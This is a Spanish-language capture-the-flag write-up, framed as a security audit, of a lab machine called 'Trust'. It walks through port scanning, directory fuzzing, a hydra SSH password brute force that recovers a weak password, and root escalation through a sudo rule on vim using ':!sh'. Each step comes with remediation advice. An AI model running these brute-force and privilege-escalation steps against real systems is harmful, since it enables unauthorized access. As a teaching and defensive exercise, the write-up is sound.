








# 🛡️ Writeup — Máquina "Trust"

**IP objetivo:** `172.18.0.2`
**Servicios expuestos:** `22 (SSH — OpenSSH 9.2p1 Debian)`, `80 (HTTP — Apache 2.4.57)`

---

## 📌 Resumen Ejecutivo

> [!summary]
> Auditoría de seguridad controlada que culminó con compromiso total del host (acceso root). La intrusión fue posible mediante una combinación de exposición de información sensible vía web, credenciales débiles y configuración insegura de privilegios `sudo` — demostrando cómo múltiples debilidades de severidad media pueden encadenarse hasta producir un impacto crítico.

**Objetivo de la auditoría:** identificar servicios expuestos, enumerar recursos accesibles, detectar configuraciones inseguras, evaluar la robustez de autenticación y comprobar posibilidades de escalada de privilegios.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -vvv -O -Pn 172.18.0.2
```

| Puerto | Servicio | Versión |
|---|---|---|
| 22/TCP | SSH | OpenSSH 9.2p1 Debian |
| 80/TCP | HTTP | Apache httpd 2.4.57 |



### Enumeración web
Inspección manual: el servidor solo muestra la página por defecto de Apache ("It works"), sin aplicaciones visibles.



Se procede a fuzzing de directorios:
```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt,py,sh,log,zip,old,bak
```


---

## 🚩 Hallazgos

### 🟡 H1: Fuga de información en `/secret.php`

**Severidad:** Baja (habilitadora del hallazgo H2)

**Resumen:** El fuzzing descubre el recurso `/secret.php`, cuyo análisis permite inferir la existencia de un usuario válido del sistema.

**Detalle**
```
/secret.php
```


Del análisis del recurso se infiere el usuario: `mario`

**Impacto:** Reduce el ataque de fuerza bruta posterior a solo adivinar la contraseña de un usuario ya conocido.

**Recomendación:** Eliminar recursos de depuración/backup accesibles en producción; no exponer nombres de usuario en rutas públicas.

---

### 🟠 H2: Fuerza bruta SSH exitosa (`mario`)

**Severidad:** Alta

**Resumen:** Con el usuario `mario` identificado en H1, el servicio SSH acepta autenticación por contraseña sin límite de intentos, y la cuenta usa una contraseña presente en `rockyou.txt`.

**PoC**
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.18.0.2 ssh -t 4
```
Credenciales obtenidas: `mario` / `chocolate`



```bash
ssh mario@172.18.0.2
```
Shell interactiva obtenida bajo el contexto del usuario `mario`.



**Impacto:** Acceso inicial al sistema.

**Recomendación:** Deshabilitar autenticación por contraseña en SSH; implementar claves y políticas de contraseñas robustas.

---

### 🔴 H3: Escalada de privilegios vía `sudo` sobre Vim (NOPASSWD)

**Severidad:** Crítica

**Resumen:** El usuario `mario` puede ejecutar Vim como root sin contraseña, permitiendo obtener una shell root mediante la función de ejecución de comandos del editor (GTFOBins).

**Detalle / Causa raíz**
```bash
sudo -l
```
```
(ALL) /usr/bin/vim
```


**PoC**
```bash
sudo /usr/bin/vim
```
Dentro de Vim:
```
:!sh
```
Cuando `vim` se ejecuta mediante `sudo`, hereda privilegios de root; la shell invocada desde dentro mantiene esos privilegios.

```bash
whoami
# root
```


**Impacto:** Compromiso total del host — acceso remoto, enumeración interna completa, elevación de privilegios, control total, posible persistencia y capacidad de movimiento lateral. **Nivel de riesgo: Crítico.**

**Recomendación:** Nunca otorgar `sudo` sobre binarios interactivos con capacidad de escape a shell (`vim`, `less`, `find`, etc.).

---

## 🔗 Cadena de ataque

```text
Fuzzing web → fuga de usuario en /secret.php (H1) → fuerza bruta SSH (H2, mario:chocolate) →
sudo vim NOPASSWD (H3) → root
```

**Técnicas (MITRE ATT&CK):**

| Técnica | ID |
|---|---|
| Active Scanning | T1595 |
| Brute Force | T1110 |
| Valid Accounts | T1078 |
| Command Shell | T1059 |
| Abuse Elevation Control Mechanism | T1548 |

---

## 🛡️ Recomendaciones generales

- **Hardening de SSH:** deshabilitar autenticación por contraseña, implementar claves, políticas robustas.
- **Seguridad web:** eliminar archivos sensibles expuestos, restringir accesos innecesarios, auditar contenido oculto.
- **Seguridad de privilegios:** evitar `sudo` sobre binarios interactivos, aplicar mínimo privilegio, revisar sudoers periódicamente.
- **Monitorización:** alertas de autenticación fallida, revisión de logs SSH/Apache, EDR/SIEM.

---

## 🧾 Conclusión

> [!summary]
> La auditoría evidenció múltiples debilidades encadenables (fuga de información, credenciales débiles y `sudo` mal configurado) que permitieron el compromiso total del host objetivo. Demuestra la importancia de gestionar correctamente privilegios, aplicar políticas seguras de autenticación y minimizar la exposición de información sensible.
